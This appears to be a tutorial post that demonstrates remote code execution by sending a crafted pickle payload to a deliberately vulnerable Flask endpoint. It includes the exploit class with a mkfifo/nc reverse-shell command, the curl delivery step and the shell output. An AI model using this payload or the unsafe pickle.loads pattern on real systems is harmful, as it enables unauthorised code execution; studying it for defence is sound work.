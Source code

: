# Python: Exploiting de-serialization to achieve RCE

The [`pickle`](https://docs.python.org/3/library/pickle.html) module implements binary protocols for serializing and de-serializing a Python object structure.

The documentation for `pickle` module comes with red box of warning:

> Warning The pickle module is not secure. Only unpickle data you trust.
It is possible to construct malicious pickle data which will execute arbitrary code during unpickling. Never unpickle data that could have come from an untrusted source, or that could have been tampered with.

In this post, I will try to demonstrate how remote code executation can be achieved by exploiting `pickle` on a flask based web application.

## Setup basic flask application

- Create virtual env
```
python3 -m venv venv
source venv/bin/activate

pip install flask
```
- Create app.py
```
from flask import Flask, request
import base64
import pickle

app = Flask(__name__)

@app.route('/pickler', methods=["POST"])
def pickler():
    data = base64.urlsafe_b64decode(request.form['pickled'])
    deserialized_data = pickle.loads(data)
    return ''
```
- Run the app
```
export FLASK_APP=app.py
flask run
```

## Create payload for the RCE
```
# exploit.py

import pickle
import base64
import os


class RCE(object):
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 4444 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))

```

By implementing `__reduce__` in a class whose instances we are going to pickle, we can give the pickling process a callable plus some arguments to run. While intended for reconstructing objects, we can abuse this for getting our own reverse shell code executed.

The code executed will create a reverse shell back to our localhost at port 4444

Let's generate the payload by running above code:

```
python exploit.py
Y3Bvc2l4CnN5c3RlbQpwMAooUydybSA...
```
## Exploit

```
# create a listner
nc -nvvl 4444

# send payload
curl -d "pickled=Y3Bvc2l4CnN5c3RlbQpwMAooUydybSA..." http://127.0.0.1:5000/pickler

# watch the listner for connection

nc -nvvvl 1234
sh: no job control in this shell
sh-3.2$ id
uid=501(raj3shp)
```
